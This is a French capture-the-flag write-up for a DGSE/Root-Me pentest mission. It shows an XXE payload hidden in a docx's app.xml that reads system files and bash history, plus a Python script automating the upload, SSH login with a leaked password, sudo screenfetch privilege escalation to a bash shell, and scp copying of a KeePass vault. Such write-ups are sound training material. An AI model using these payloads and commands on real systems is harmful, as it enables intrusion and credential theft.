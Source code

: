 # Mission 4 DGSE x Rootme (PENTEST)

![Brief](images/mission.png)

# Writeup

- On peut se rendre sur l'Application Web de l'entité.

- Sur cette application Web nous avons deux options :

```
"Track a Word document" et "Identify a victim from a document"
```

Pour ces deux options nous devons obligatoirement upload un document word .docx.

> [!IMPORTANT]
> Mais qu'est-ce qu'un document docx ?
> Un .docx fonctionne comme une archive .zip : il contient plusieurs fichiers, dont des fichiers XML. L’un d’eux, app.xml, est utilisé pour stocker des métadonnées.

On upload un document .docx vierge avec la première option et on récupère le document "signé".

-- Le fichier **app.xml** contient une balise personnalisée VictimID : 

```xml
<VictimID>victim-42382ede-f219-4076-9758-be4ee93686d4</VictimID>
```

La deuxième option récupère le contenu de cette la balise pour "identifier la victime".

On voit donc la possibilité d'une injection XXE pour récupérer des fichiers système.

--> On modifie le contenu de app.xml et on update l'archive docx pour tester la récupération de /etc/passwd : 

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<Properties xmlns="http://schemas.openxmlformats.org/officeDocument/2006/extended-properties"
            xmlns:vt="http://schemas.openxmlformats.org/officeDocument/2006/docPropsVTypes">
  <VictimID>&xxe;</VictimID>
  <Application>App</Application>
</Properties>
```
On upload ce fichier via la deuxième option et on récupère le contenu de /etc/passwd --> Cela confirme la vulnérabilité : 

![Vuln](images/passwd1.png)

On peut modifier l'archive manuellement à chaque fois que l'on veut tester une cible pour le path **XXE** mais c'est contraignant.

-- On automatise ce processus grâce à un script python :

```python
import zipfile
import os
import shutil
import requests

docx_file = "passwd.docx" # On part de l'archive que nous avons utilisé pour récupérer passwd
xxe_target = "/etc/passwd"  # Path pour la cible xxe
base_url = "http://163.172.67.183"
upload_url = f"{base_url}/read" 

zip_file = docx_file.replace(".docx", ".zip")
extracted_dir = "unzipped_payload"
modified_docx = "xxe_modified.docx"

shutil.copyfile(docx_file, zip_file)

# Extraire les fichiers dans l'archive

os.makedirs(extracted_dir, exist_ok=True)
with zipfile.ZipFile(zip_file, 'r') as zip_ref:
    zip_ref.extractall(extracted_dir)

# Payload

app_xml_path = os.path.join(extracted_dir, "docProps", "app.xml")
if os.path.exists(app_xml_path):
    with open(app_xml_path, "r", encoding="utf-8") as f:
        content = f.read()

    new_content = content.replace("file:///etc/passwd", f"file://{xxe_target}")

    with open(app_xml_path, "w", encoding="utf-8") as f:
        f.write(new_content)
else:
    print(" app.xml introuvable.")
    exit(1)

# Nouvelle archive

with zipfile.ZipFile(modified_docx, 'w', zipfile.ZIP_DEFLATED) as new_zip:
    for root, _, files in os.walk(extracted_dir):
        for file in files:
            full_path = os.path.join(root, file)
            arcname = os.path.relpath(full_path, extracted_dir)
            new_zip.write(full_path, arcname)

print(f" Fichier modifié : {modified_docx} (payload: {xxe_target})")

with open(modified_docx, "rb") as f:
    files = {
        "file": (modified_docx, f, "application/vnd.openxmlformats-officedocument.wordprocessingml.document")
    }
    print("Envoi en cours") # Vers l'endpoint /read qui est celui utilisé pour la deuxième option.
    response = requests.post(upload_url, files=files)

print(f"\n Statut HTTP : {response.status_code}")
print(" Réponse serveur :\n")
print(response.text)
```
> On cherche à obtenir un accès persistant à la machine — et l’accès SSH paraît être l’option la plus réaliste.

On essaie de récupérer plusieurs fichiers systèmes comme les clés ssh mais on a une erreur qui signifie que nous n'avons pas les droits pour les lire.

* On arrive dans un premier temps à récupérer la config OpenSSH avec le path "/etc/ssh/sshd_config" ce qui leak le port utilisé pour OpenSSH : Port 22222.
* Dans un second temps on récupère le hostname (document-station).

Il y a sûrement l'utilisateur **document-user** donc on recupère également son historique bash :

![History](images/Bashistory.png)

Celui-ci contient la commande : 

```
echo "cABdTXRyUj5qgAEl0Zc0a" >> /tmp/exec_ssh_password.tmp
```

On peut donc déduire que **cABdTXRyUj5qgAEl0Zc0a** est le mot de passe d'un utilisateur, or ce n'est pas celui de document-user.

Le fichier passwd nous a également fuiter des users, on en teste plusieurs avec ce mot de passe, on finit par trouver le bon **executor**.

```
sshpass -p 'cABdTXRyUj5qgAEl0Zc0a' ssh -p 22222 executor@163.172.67.183
```

- On navigue rapidement dans les répertoires, une fois dans /home/administrator/, plusieurs éléments intéressants apparaissent.

vault.kdbx - C'est un fichier de base de données KeePass, souvent utilisé pour stocker des mots de passe de manière chiffrée.
logo.jpg   - C'est un fichier image qui a première vu n'a rien d'intéressant ^^.

- On veut récupérer ces deux fichiers car ils peuvent être la clé de l'énigme mais en l'état **Nous n'avons pas les droits de lecture dessus.**

--> En regardant les droits sudoers en tant qu'executor, on remarque que l'on peut éxécuter le binaire screenfetch en tant qu'administrator:

```
User executor may run the following commands on document-station:
    (administrator) NOPASSWD: /usr/bin/screenfetch
```

> On ne trouve pas forcément tout de suite comment escalader de privilèges mais on finit par y arriver, voici l'explication.

- À première vue, screenfetch semble inoffensif (il sert juste à afficher des infos système), mais il accepte des options qui peuvent être détournées, notamment, avec l’option -S, avec laquelle il est possible d’exécuter une commande personnalisée :

```
sudo -u administrator /usr/bin/screenfetch -s -S '/bin/bash -p'
```

- Ici, on utilise l’option -S pour exécuter /bin/bash -p, le flag -p (privileged mode) permet de conserver les privilèges de l’utilisateur avec lequel la commande est lancée — en l’occurrence administrator.

--> On ouvre donc un shell bash en tant que administrator en exploitant **cette erreur de configuration :**

![Brief](images/privesc.png)

> [!NOTE]
> Nous avons maintenant les droits de lecture sur ces deux fichiers mais nous avons un autre problème.

Comment récupérer ces deux fichiers en local pour pouvoir les analyser sachant que nous n'avons pas les droits en écriture sur la plupart des dossiers (Read-only file system)

- A la racine on repère un script "entrypoint.sh", voici son contenu :

```
#!/bin/bash

service ssh restart

chmod 1773 /dev/shm

su - document-user -c "cd /app && flask run --host=0.0.0.0 --port=5000"
```
> On a donc la solution à notre problème.

- Il applique chmod 1773 sur le dossier /dev/shm, ce qui me garantit que ce répertoire est accessible en écriture pour tous les utilisateurs.

--> On copie les deux fichiers importants vers /dev/shm en tant qu'administrator et on donne les droits de lecture à tous les utilisateurs :

```
cp /home/administrator/logo.jpg   /home/administrator/vault.kdbx  /dev/shm/
chmod 644 /dev/shm/logo.jpg /dev/shm/vault.kdbx
```

--> On récupère les deux fichiers sur notre machine en local avec scp :

```
scp -P 22222 executor@163.172.67.183:/dev/shm/logo.jpg .
scp -P 22222 executor@163.172.67.183:/dev/shm/vault.kdbx .
```

- On ouvre le vault avec keepass mais on demande un password que l'on a pas, on peut également utiliser un **keyfile** pour le déverrouiller, on utilise donc l'image logo.png comme keyfile et ça marche !

![Flag](images/flag.png)

**Flag:**
```
RM{f5289180cb760ca5416760f3ca7ec80cd09bc1c3}
```



